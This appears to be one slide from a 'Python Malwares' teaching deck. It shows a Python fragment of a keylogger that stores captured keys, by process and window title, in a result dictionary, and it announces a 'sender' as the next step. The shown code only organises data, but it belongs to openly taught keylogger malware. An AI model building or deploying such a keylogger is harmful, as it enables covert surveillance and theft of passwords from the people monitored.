

Python Malwares (cont.)
Writing a Keylogger (cont.)
If there’s no window_title entry, we initialize a new one:
        ...
        # if there is no window title, we create a new one with empty key.
        else:
            keylogger_result[executable_name].update({
                    window_title : {
                        "process_id": process_id,
                        "keys": key
                    }
                })
This is all there is to add_info.
Next, we will write our sender.
134